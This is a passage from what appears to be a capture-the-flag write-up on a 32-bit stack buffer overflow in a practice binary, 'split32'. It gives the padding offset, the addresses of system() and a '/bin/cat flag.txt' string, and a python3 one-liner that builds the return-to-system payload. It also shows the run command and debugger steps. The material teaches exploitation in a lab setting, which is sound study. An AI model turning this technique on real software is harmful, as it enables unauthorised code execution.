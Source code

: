 We find that we had to write **44 bytes** to the buffer to begin overwriting the return pointer.

#### Building out our payload manually:

**Payload layout:**

<mark style="color:green;">Padding (44) +</mark> <mark style="color:green;"></mark><mark style="color:green;">`system()`</mark> <mark style="color:green;"></mark><mark style="color:green;">+</mark> <mark style="color:green;"></mark><mark style="color:green;">`"/bin/cat flag.txt"`</mark>

`system()`:&#x20;

```
0x0804861a
```

`"/bin/cat flag.txt"`:

```
0x804a030
```

**We need to now place them in **<mark style="color:yellow;">**little-endian**</mark>** format for our payload:**

<pre><code><strong>system(): 0x0804861a -> \x1a\x86\x04\x08
</strong>
"/bin/cat flag.txt": 0x804a030 -> \x30\xa0\x04\x08
</code></pre>

**Utilizing `python3` to craft our payload and write it to a file named payload**:

```
python3 -c "import sys; sys.stdout.buffer.write(b'A'*44+b'\x1a\x86\x04\x08' + b'\x30\xa0\x04\x08')" > payload
```

**Execute the binary and send the payload to it:**

```
./split32 < payload
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Result</p></figcaption></figure>

**Visualize the payload in `pwndbg`:**

Obtain a clean instance of `pwndbg`.

**Set a breakpoint at `system()` and run while sending the payload in:**

```
b system
r < payload
```
